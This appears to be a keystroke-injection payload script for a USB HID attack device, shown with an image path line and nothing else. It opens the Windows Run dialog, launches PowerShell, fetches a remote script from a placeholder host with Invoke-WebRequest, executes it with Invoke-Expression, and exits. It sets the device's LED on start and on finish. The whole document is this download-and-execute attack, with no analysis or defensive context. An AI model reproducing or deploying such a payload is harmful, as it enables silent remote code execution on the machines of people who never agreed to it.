 Code

    LED 0 0 0
    DELAY 1000
    GUI r
    DELAY 100
    STRING powershell.exe
    ENTER
    DELAY 1000
    STRING $ScriptFromGithHub = Invoke-WebRequest https://example.com/powershellScript.ps1
    ENTER
    DELAY 500
    STRING Invoke-Expression $($ScriptFromGithHub.Content)
    ENTER
    STRING exit
    ENTER
    LED 0 0 255
